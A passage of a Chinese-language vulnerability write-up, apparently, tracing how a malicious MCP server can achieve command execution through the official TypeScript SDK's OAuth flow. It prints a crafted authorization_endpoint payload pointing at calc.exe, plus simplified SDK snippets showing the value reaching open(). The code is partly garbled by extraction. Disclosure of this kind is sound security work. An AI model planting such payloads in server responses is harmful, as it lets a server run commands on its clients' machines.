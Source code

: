   
  
图 8：auth.ts（官方 MCP Typescript SDK）中 auth 函数的简化代码片段  
  
此函数用于启动 OAuth 授权流程。让我们仔细阅读 ### 号内的注释：  
  
1.  
我们discoverOAuthProtectedResourceMetadata通过从我们的服务器返回 401 Unauthorized 来跳过此函数的获取请求的逻辑（http://remote.server.example.com/.well-known/oauth-protected-resource）  
  
2.  
然后discoverOAuthMetadata被调用，从我们服务器的/.well-known/oauth-authorization-server端点获取 OAuth 元数据，该端点返回一个 JSON 对象，其中列出了 OAuth 端点和配置参数。此响应中包含authorization_endpoint字段。该字段的值通常包含用于验证用户身份的标准 HTTP URL，但为了触发命令执行，恶意服务器会返回一个精心设计的值：  
  

```
{“ authorization_endpoint”：“file:/c:/windows/system32/calc.exe ”，
“ registry_endpoint”：“ https://remote.server.example.com/register”，/*
… */
“ code_challenge_methods_supported”：[“ S256”]}
```

  
  
3.  
它继续进行动态客户端注册：访问我们的 /register 端点 - 我们给出有效的答案，因此流程继续。  
  
4.  
该startAuthorization函数被调用（见下文），并使用metadata.authorization_endpoint我们在上面步骤 2 中提供的字符串构造一个新的 URL()。然后，它向其添加查询字符串参数并返回它：  
  

```
exportasyncfunctionstartAuthorization(
   serverUrl, {metadata, clientInformation, redirectUrl, scope } {
   if (metadata) {
     authorizationUrl = new URL(metadata.authorization_endpoint); //javascript:$(calc.exe)
   /* ... checks some metadata params that pass ... */
   }
   /* ... */
   /* adding searchParams (query-string) to the authorizationUrl */
   authorizationUrl.searchParams.set(&#34;response_type&#34;, responseType);
   /* ... */
   return { authorizationUrl, codeVerifier };
 }
```

  
  
图 9：auth.ts（官方 MCP Typescript SDK）中 startAuthorization 函数的简化代码片段  
  
5.  
然后provider.redirectToAuthorization(authorizationUrl)调用redirectToAuthorization我们的对象的方法NodeOAuthClientProvider，该方法位于node-oauth-client-provider.ts中：  
  

```
asyncredirectToAuthorization(authorizationUrl: URL): Promise {
     log(`\nPlease authorize this client by visiting:\n${authorizationUrl.toString()}\n`)
     try {
       await open(authorizationUrl.toString()) /* ### 6 ### */
       log('Browser opened automatically.')

     } catch (error) {
/* ... *
     }
   }
```
